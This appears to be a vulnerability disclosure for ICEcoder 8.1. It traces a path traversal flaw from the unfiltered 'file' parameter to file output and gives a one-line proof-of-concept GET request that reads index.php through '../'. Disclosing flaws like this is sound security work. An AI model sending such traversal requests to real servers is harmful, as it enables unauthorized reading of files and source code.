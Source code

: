 A Path Traversal vulnerability in icecoder 8.1.

In file https://github.com/icecoder/ICEcoder/blob/master/lib/backup-versions-preview-loader.php

```php
...
$file = str_replace("|", "/", xssClean($_GET['file'], 'html'));		// Line 6(Source)
$loadedFile = toUTF8noBOM(getData("../data/backups/" . $file), true);	// Line 9(Tainted)
...
echo '<textarea name="loadedFile" id="loadedFile">' . htmlentities($loadedFile, ENT_COMPAT, $encoding) . '</textarea>';		// Line 16(Sink)
...
```

Source from `$_GET['file']` with the filtering from function xssClean. But this function does not filter `/` , `.` and `\`, which make path traversal can still be performed.

# Poc

`GET /lib/backup-versions-preview-loader.php?file=../index.php&csrf=f61f875ccdfce110c49d184ddecfbd2f`

The value of csrf can access from index.php

# Manual verification

![alt text](5.png)

![alt text](6.png)



The developer has been informed of the report via email

